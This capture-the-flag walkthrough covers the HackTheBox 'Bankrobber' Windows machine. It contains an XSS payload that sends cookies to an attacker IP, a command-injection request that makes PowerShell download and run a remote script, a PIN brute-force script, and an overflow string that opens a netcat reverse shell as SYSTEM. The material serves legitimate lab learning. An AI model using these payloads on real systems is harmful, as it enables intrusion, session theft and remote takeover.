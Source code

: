 # Bankrobber - HackTheBox
## Windows - Insane

## User
There is a blind XXS in the transaction form. We can get the admin cookie with the payload `<script>x=new Image();x.src="http://[my-ip]/"+document.cookie</script>`. These give the credentials `admin:Hopelessromantic`. Login with these credentials get us to an admin page. There, one can run `dir` command but gets error that it needs to be run on `localhost`. Go back to the XSS and make admin run the post request:
```javascript
<script>
xh = new XMLHttpRequest();
xh.open('POST','/admin/backdoorchecker.php', true);
xh.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xh.send("cmd=dir | powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.175/shell.ps1?sinqdoubouturlenc')");
</script>
```
We have command injection by adding pipe `|`. Need to URL-encode with burp to make it work.
Get a shell as user `Cortin` on the box, and get the user flag.

## Root
There is an odd binary `bankv2.exe` in `C:\`. Look at `netstat` and see that it runs on `localhost:910`. Port forward with `chisel`:
```
kali$ ./chisel server -p 80 --reverse
Bankrobber>.\chisel.exe client [my-ip]:80 R:910:localhost:910
```

Then, doing `nc localhost 910` on our box, we get asked for a 4-digits PIN. Brute forcewith `brute.py`:
```python
import socket
import time

def trial(n):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('127.0.0.1', 910))
    s.recv(4096)
    print('{:04}'.format(n).encode())
    s.send('{:04}'.format(n).encode()+b'\n')
    resp = ""
    i=0
    while not resp:
        i+=1
        resp = s.recv(4096)
        if i==100000:return b''
    s.close()
    del s
    return resp

for i in range(0,10000):
    print(i)
    resp = trial(i)
    print(resp)
    if b"Access denied" not in resp and resp!=b'':
        print(i)
        print(resp)
        break
```


we get that the PIN is `0021`. Then the binary asks for a transfer amount and says that it executes `C:\users\admin\documents\transfer.exe`. Inputting many characters yields an overflow on the program it executes. So we can put a reverse shell in the transfer amount:
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAc:\users\cortin\music\nc.exe 10.10.14.175 9007 -e powershell.exe
```
And we get a shell as `nt authority \ system`. Note that it works best on our machine with `chisel`. With nishang reverse shell or meterpreter, the output is screwed so it's harder to do the overflow.
